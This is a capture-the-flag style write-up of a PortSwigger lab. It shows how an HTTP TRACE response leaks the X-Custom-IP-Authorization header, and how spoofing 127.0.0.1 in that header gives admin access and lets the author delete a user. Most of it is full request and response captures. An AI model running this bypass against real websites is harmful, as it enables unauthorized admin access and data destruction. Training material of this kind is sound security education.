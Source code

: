 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/d31747c2-0464-4c47-a363-380162d1272c)

## Overview :

- Developers might forget to *disable various* debugging options in the production environment.


> For example, the `HTTP TRACE` method is designed for diagnostic purposes. If enabled, the web server will respond to requests that use the `TRACE` method by echoing in the
> response the exact request that was received. This behavior is often harmless, but occasionally **leads to information disclosure, such as the name of internal
> authentication headers that may be appended to requests** by reverse proxies. 

## Solution :

#### Analysing the login functionality -

Once the lab loads, we login as wiener and intercept the requests by using burp.

2 requests are sent when logging in.

1. POST request with the username & password which we entered.

```http
post /login HTTP/2
Host: 0adf00a2045c466b808d85e200c2005a.web-security-academy.net
Cookie: session=9Q5EQgtqUhCdLQ2FwiRdbEL9QT5axZ9O
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Origin: https://0adf00a2045c466b808d85e200c2005a.web-security-academy.net
Referer: https://0adf00a2045c466b808d85e200c2005a.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

csrf=YhxPLgTtgTrqeTnp5bwb3G4tt9hGiymf&username=wiener&password=peter
```


2. GET request with parameter `?id=wiener`.

```http
GET /my-account?id=wiener HTTP/2
Host: 0adf00a2045c466b808d85e200c2005a.web-security-academy.net
Cookie: session=Cg9Tz6WFnRqBebiW7cfpYpvb1QUuybt8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0adf00a2045c466b808d85e200c2005a.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```

####  HTTP methods -

In order to  bypass the authentication & have admin access, we have to check what HTTP methods are used.

First let's try **OPTIONS** header to see what HTTP headers are allowed in this request but sadly it didn't return anything.

So next, we will try each of the methods **PUT,PATCH,DELETE,TRACE**.

All the headers gave nothing interesting in response except **TRACE**.

The  request sent is as follows

```http
TRACE /my-account?id=carlos HTTP/2
Host: 0adf00a2045c466b808d85e200c2005a.web-security-academy.net
Cookie: session=Cg9Tz6WFnRqBebiW7cfpYpvb1QUuybt8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0adf00a2045c466b808d85e200c2005a.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```

The response with `TRACE` http header was,

```http
HTTP/2 200 OK
Content-Type: message/http
X-Frame-Options: SAMEORIGIN
Content-Length: 696

TRACE /my-account?id=carlos HTTP/1.1
Host: 0adf00a2045c466b808d85e200c2005a.web-security-academy.net
user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
accept-language: en-US,en;q=0.5
accept-encoding: gzip, deflate
referer: https://0adf00a2045c466b808d85e200c2005a.web-security-academy.net/login
upgrade-insecure-requests: 1
sec-fetch-dest: document
sec-fetch-mode: navigate
sec-fetch-site: same-origin
sec-fetch-user: ?1
te: trailers
cookie: session=Cg9Tz6WFnRqBebiW7cfpYpvb1QUuybt8
Content-Length: 0
X-Custom-IP-Authorization: 152.58.224.8
```

> **TRACE** method **echoes  the exact same request that was received in the response** . This behavior is often harmless, but occasionally leads to *information disclosure*, such as the name of internal authentication headers that may be appended to requests

From the above response, we can understand that **X-Custom-IP-Authorization** header is supported . So we can use it in the request.

> NOTE - By using `X-Custom-Authorization` header we can spoof our IP addresses. EG- `X-Custom-Authorization: 127.0.0.1`

So if we spoof our IP as localhost, maybe sometimes the website will not validate it since it is coming from a trusted server. So by this way it will help us access the admin panel without admin credentials.

We now send a request like thi ,

```http
GET /my-account?id=carlos HTTP/2
Host: 0adf00a2045c466b808d85e200c2005a.web-security-academy.net
Cookie: session=Cg9Tz6WFnRqBebiW7cfpYpvb1QUuybt8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0adf00a2045c466b808d85e200c2005a.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
X-Custom-Ip-Authorization: 127.0.0.1
```

In the response we have a link to `/admin` panel

```
<a href="/admin">Admin panel</a><p>|</p>
<a href="/my-account?id=wiener">My account</a><p>
```

Now send another request to access `/admin` panel  with the same X-Custom-Authorization header.  

```http
GET /admin HTTP/2
Host: 0adf00a2045c466b808d85e200c2005a.web-security-academy.net
Cookie: session=Cg9Tz6WFnRqBebiW7cfpYpvb1QUuybt8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0adf00a2045c466b808d85e200c2005a.web-security-academy.net/my-account?id=carlos
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
X-Custom-Ip-Authorization: 127.0.0.1
```
In the reponse we get the href link to delete user carlos .

```html
                       <div>
                            <span>carlos - </span>
                            <a href="/admin/delete?username=carlos">Delete</a>
                        </div>
```

Again one last time, send a *POST* request to `/admin/delete?username=carlos` endpoint (along with the custom header) to delete user carlos & Solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/e5ca816b-480b-466d-9c50-bb6ffb368c79)





